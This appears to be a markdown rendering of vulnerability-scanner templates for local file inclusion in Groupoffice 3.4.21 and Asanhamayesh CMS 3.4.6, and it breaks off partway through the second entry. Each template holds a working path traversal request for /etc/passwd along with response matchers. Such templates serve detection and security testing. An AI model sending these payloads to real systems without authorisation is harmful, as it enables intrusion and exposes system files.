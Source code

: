 # Groupoffice 3.4.21 - Local File Inclusion

## Description

- Groupoffice 3.4.21 is vulnerable to local file inclusion.
- severity - high
- tags - groupoffice,lfi,traversal

## Requests

- Method - GET

### URL

- {{BaseURL}}/compress.php?file=../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Asanhamayesh CMS 3.4.6 - Local File Inclusion

## Description

- Asanhamayesh CMS 3.4.6 is vulnerable to local file inclusion.
- severity - high
- tags - asanhamayesh,lfi,traversal

## Requests

- Method - GET

### URL

- {{BaseURL}}/downloadfile.php?file=../../../../../../../../../../etc/passwd

### Matchers

**Type - regex**
